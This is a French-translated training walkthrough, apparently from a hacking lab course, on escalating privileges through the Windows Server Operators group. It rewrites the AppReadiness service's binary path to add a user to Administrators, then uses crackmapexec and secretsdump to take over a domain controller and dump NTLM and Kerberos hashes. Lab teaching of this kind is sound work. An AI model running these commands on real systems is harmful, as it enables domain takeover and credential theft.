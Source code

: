 Opérateurs de serveur
================

* * * * *

Le groupe [Opérateurs de serveur](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) permet aux membres d'administrer Windows serveurs sans avoir besoin d'attribuer des privilèges d'administrateur de domaine. Il s'agit d'un groupe très privilégié qui peut se connecter localement aux serveurs, y compris les contrôleurs de domaine.

L'appartenance à ce groupe confère les puissants privilèges `SeBackupPrivilege` et `SeRestorePrivilege` et la possibilité de contrôler les services locaux.

#### Interrogation du service AppReadiness

Examinons le service `AppReadiness`. Nous pouvons confirmer que ce service démarre en tant que SYSTEM à l'aide de l'utilitaire `sc.exe` .

Interroger le service AppReadiness

```
C:\htb> sc qc AppReadiness

[SC] QueryServiceConfig RÉUSSITE

SERVICE_NAME : compatibilité avec les applications
         TYPE : 20 WIN32_SHARE_PROCESS
         START_TYPE : 3 DEMAND_START
         ERROR_CONTROL : 1 NORMALE
         BINARY_PATH_NAME : C:\Windows\System32\svchost.exe -k AppReadiness -p
         LOAD_ORDER_GROUP :
         MARQUE : 0
         DISPLAY_NAME : compatibilité avec l'application
         DEPENDANCES :
         SERVICE_START_NAME : système local

```

#### Vérification des autorisations de service avec PsService

Nous pouvons utiliser le visualiseur/contrôleur de service [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice), qui fait partie de la suite Sysinternals, pour vérifier les autorisations sur le service. `PsService` fonctionne un peu comme l'utilitaire `sc` et peut afficher l'état et les configurations du service et vous permet également de démarrer, d'arrêter, de mettre en pause, de reprendre et de redémarrer les services localement et sur des hôtes distants.

Vérification des autorisations de service avec PsService

```
C:\htb> c:\Tools\PsService.exe security AppReadiness

PsService v2.25 - Service information and configuration utility
Copyright (C) 2001-2010 Mark Russinovich
Sysinternals - www.sysinternals.com

SERVICE_NAME: AppReadiness
DISPLAY_NAME: App Readiness
        ACCOUNT: LocalSystem
        SECURITY:
        [ALLOW] NT AUTHORITY\SYSTEM
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                Pause/Resume
                Start
                Stop
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Administrators
                All
        [ALLOW] NT AUTHORITY\INTERACTIVE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] NT AUTHORITY\SERVICE
                Query status
                Query Config
                Interrogate
                Enumerate Dependents
                User-Defined Control
                Read Permissions
        [ALLOW] BUILTIN\Server Operators
                All
```

Cela confirme que le groupe Opérateurs de serveur dispose du droit d'accès [SERVICE_ALL_ACCESS](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights), ce qui nous donne un contrôle total sur ce service.

#### Vérification de l'appartenance au groupe d'administrateurs locaux

Examinons les membres actuels du groupe d'administrateurs locaux et confirmons que notre compte cible n'est pas présent.

Vérification de l'appartenance au groupe d'administrateurs locaux

```
C:\htb> net localgroup Administrateurs

Nom d'alias Administrateurs
Commentaire Les administrateurs ont un accès complet et illimité à l'ordinateur/au domaine

Membres

-------------------------------------------------- -----------------------------
Administrateur
Administrateurs de domaine
Administrateurs d'entreprise
La commande s'est terminée avec succès.

```

#### Modification du chemin binaire du service

Modifions le chemin binaire pour exécuter une commande qui ajoute notre utilisateur actuel au groupe d'administrateurs locaux par défaut.

Modification du chemin binaire du service

```
C:\htb> sc config AppReadiness binPath= "cmd /c net localgroup Administrateurs server_adm /add"

[SC] RÉUSSITE de ChangeServiceConfig

```

#### Démarrage du service

Le démarrage du service échoue, ce qui est attendu.

Démarrage du service

```
C:\htb> sc start AppReadiness

[SC] ÉCHEC du service de démarrage 1053 :

Le service n'a pas répondu à la demande de démarrage ou de contrôle en temps opportun.

```

#### Confirmation de l'appartenance au groupe d'administrateurs locaux

Si nous vérifions l'appartenance au groupe des administrateurs, nous constatons que la commande a été exécutée avec succès.

Confirmation de l'appartenance au groupe d'administrateurs locaux

```
C:\htb> net localgroup Administrateurs

Nom d'alias Administrateurs
Commentaire Les administrateurs ont un accès complet et illimité à l'ordinateur/au domaine

Membres

-------------------------------------------------- -----------------------------
Administrateur
Administrateurs de domaine
Administrateurs d'entreprise
serveur_adm
La commande s'est terminée avec succès.

```

#### Confirmation de l'accès administrateur local sur le contrôleur de domaine

À partir de là, nous avons un contrôle total sur le contrôleur de domaine et pouvons récupérer untoutes les informations d'identification de la base de données NTDS et accéder à d'autres systèmes, et effectuer des tâches de post-exploitation.

Confirmation de l'accès administrateur local sur le contrôleur de domaine

```
dsgsec@htb[/htb]$ crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'

SMB 10.129.43.9 445 WINLPE-DC01 [*] Windows 10.0 Build 17763 (nom : WINLPE-DC01) (domaine : INLANEFREIGHT.LOCAL) (signature : Vrai) (SMBv1 : Faux)
SMB 10.129.43.9 445 WINLPE-DC01 [+] INLANEFREIGHT.LOCAL\server_adm:HTB_@cademy_stdnt ! (Pwn3d !)

```

#### Récupération des hachages de mot de passe NTLM à partir du contrôleur de domaine

Récupération des hachages de mot de passe NTLM à partir du contrôleur de domaine

```
dsgsec@htb[/htb]$ secretsdump.py server_adm@10.129.43.9 -just-dc-user administrateur

Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

Mot de passe:
[*] Vidage des identifiants de domaine (domain\uid:rid:lmhash:nthash)
[*] Utilisation de la méthode DRSUAPI pour obtenir les secrets NTDS.DIT
Administrateur:500:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58 :::
[*] Clés Kerberos saisies
Administrateur : aes256-cts-hmac-sha1-96:5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
Administrateur : aes128-cts-hmac-sha1-96:94c300d0e47775b407f2496a5cca1a0a
Administrateur :des-cbc-md5 :d60dfbbf20548938
[*] Nettoyer...

```